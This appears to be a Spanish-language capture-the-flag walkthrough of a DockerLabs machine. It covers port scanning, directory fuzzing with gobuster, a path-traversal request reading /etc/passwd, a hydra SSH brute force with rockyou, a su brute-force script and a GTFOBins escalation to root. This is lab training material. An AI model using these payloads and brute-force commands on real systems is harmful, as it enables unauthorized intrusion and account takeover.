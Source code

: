 
https://dockerlabs.es/
https://mega.nz/file/AalG1ZoR#Fm9_h5l_LUDw4bSy2NniytGsLuSD4EA12gUJ5ofYTF4
## Desplegar el docker

![[Pasted image 20250523165524.png]]

Y los mismos pasos que los ultimos ping y luego nmap para saber los puertos que tiene expuestos.

![[Pasted image 20250523165551.png]]

Vamos a visitar la web a ver que no encontramos.

![[Pasted image 20250523165615.png]]

Podemos ver la pagina default de apache.

Vamos a hacer `fuzzing` para listar más directorios.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash`

![[Pasted image 20250523165728.png]]

Vamos a visitar /shop

![[Pasted image 20250523165755.png]]

Podemos ver un error en la pagina

`"Error de Sistema: ($_GET['archivo']");`

Gracias a este error nos da una pista de que está intentando utilizar un archivo llamado **archivo**

Vamos a ver si podemos hacer **directory traversal** y localizar algun otro archivo del equipo.

`http://172.17.0.2/shop/?archivo=../../../../../../etc/passwd`

![[Pasted image 20250523170008.png]]

Podemos ver un usuario **machi**, vamos a utilizar `hydra` y el diccionario `rockyou` para encontrar la contraseña y entrar por `ssh`

`hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4`

![[Pasted image 20250523170218.png]]

![[Pasted image 20250523170250.png]]

No podemos utilzar `sudo` con este usuario.

![[Pasted image 20250523170336.png]]
Vamos a ver si encontramos algun directorio/archivo para poder hacer la escala de privilegios.

![[Pasted image 20250523170800.png]]

No hemos encontrado nada.

Ya que no tenemos permisos para ver el usuario **seller** realizaremos fuerza bruta.

Para esto utilizaremos un script el cual hará la fuerza bruta hacia `sudo`

`wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh`

![[Pasted image 20250523170936.png]]

No existe `wget` en el equipo.

Por lo que vamos a mandarlo con `scp` desde nuestro equipo.

![[Pasted image 20250523171045.png]]

![[Pasted image 20250523171119.png]]

![[Pasted image 20250523171128.png]]

Damos permisos de ejecución al archivo.

`chmod +x Linux-Su-Force.sh`

Y lo ejectamos

`./Linux-Su-Force.sh seller rockyou.txt`

![[Pasted image 20250523171228.png]]

Vamos a cambiar al usuario **seller**

![[Pasted image 20250523171258.png]]

Revisamo que podemos ejecutar con dicho usuario.

![[Pasted image 20250523171320.png]]

Nos vamos gtfobins y vemos la escala de privilegios.

![[Pasted image 20250523171412.png]]

![[Pasted image 20250523171433.png]]

Ya estamos como `root`
